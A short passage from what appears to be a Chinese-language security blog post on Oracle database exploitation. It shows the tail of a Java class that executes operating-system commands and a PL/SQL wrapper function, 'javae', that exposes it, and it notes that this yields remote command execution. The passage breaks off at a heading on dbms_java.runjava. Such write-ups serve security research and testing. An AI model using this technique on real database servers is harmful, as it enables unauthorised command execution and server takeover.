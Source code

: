 ```plain
            bis.close();
            p.waitFor();
            return rc;
        } catch (Exception e) {
            rc = e.getMessage();
        }
        finally
        {
            return rc;
        }
    }
}
/
create or replace
function javae(p_command in varchar2) return varchar2
as
language java
name 'oraexec.execCommand(java.lang.String) return String';
/
```

把这两个文件放到一个位置

[![](assets/1709112088-bd01e50df1765e0d449f0b87dd9c594f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101211-c831e0da-d5de-1.png)

最后就直接 rce 了。

[![](assets/1709112088-ea74de4791c0aade5cbe3d28a1f405c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101215-caba2f74-d5de-1.png)

## dbms\_java.runjava/dbms\_java\_test\_funcall
